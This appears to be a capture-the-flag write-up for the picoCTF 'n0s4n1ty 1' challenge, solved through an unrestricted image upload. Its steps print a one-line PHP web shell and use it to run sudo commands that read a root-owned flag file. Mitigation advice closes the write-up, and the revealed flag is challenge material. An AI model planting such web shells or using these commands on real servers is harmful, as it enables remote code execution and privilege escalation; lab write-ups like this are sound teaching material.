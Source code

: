 # Challenge Title
n0s4n1ty 1

---

## Description
A website is provided where users can upload images.                                                                                                                 
The implementation is Flawed.
Flag is located in the `/root` directory.

---

## Steps to Solve

### 1. Upload a picture.
- Noticed the URL has changes to `/upload.php`
- This shows that the php script confirms the uploaded file and provides the above path.

### 2. Craft a php payload.
```php
?php system($_GET['mycommand']); ?>
```
- Named the file as `Payload.php`
- The `php` tag is essential and must wrap the payload for PHP to interpret it correctly.
- The `system()` function directly runs commands on the server.
- `$_GET['mycommand']` allows us to pass a command through the URL and run it via `system()`.
                                                                                   

### 3. Upload the payload.
- **Output:**
```
The file Payload.php has been uploaded Path: uploads/Payload.php
```
- This specifies the path to access our uploaded web shell.

### 4. Modify the URL to access the Payload.php file.

- URL:
```
/uploads/Payload.php?mycommand=sudo%20-l
```
- Appended the specified path `uploads/Payload.php` with `?mycommand=sudo%20-l`.
- The hint mentioned `sudo -`, so I tested `sudo -l` to see what privileges the web server user (`www-data`) had.
- It revealed that `www-data` had full `sudo` access with no password this gave root access instantly.
- **output:**
```
 User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL.
```

### 5. See what files are available under `/root`
- URL
``` 
uploads/Payload.php?mycommand=sudo ls /root
```
- **Output:** 
```
flag.txt
```

### 6. cat the contents in the flag.
- URL:
```
uploads/Payload.php?mycommand=sudo cat /root/flag.txt
```
- **Output:**
``` 
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

---     

## Flag
```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```
---

## Notes
- Sanitizing input is essential.
- Never allow user input to be passed directly into system commands.
- Avoid executing uploaded files as scripts.
---

## Mitigation
- Only allow the user to upload expected file types (e.g., `.jpg`, `.png`, `.pdf`).
- Place uploaded files in a non-executable directory.
- Never use functions like `system()`, `exec()`, or `shell_exec()` to execute user input unless that input has been carefully validated and sanitized to prevent abuse.
- Properly configure user permissions (e.g., avoid giving `www-data` `sudo` access).
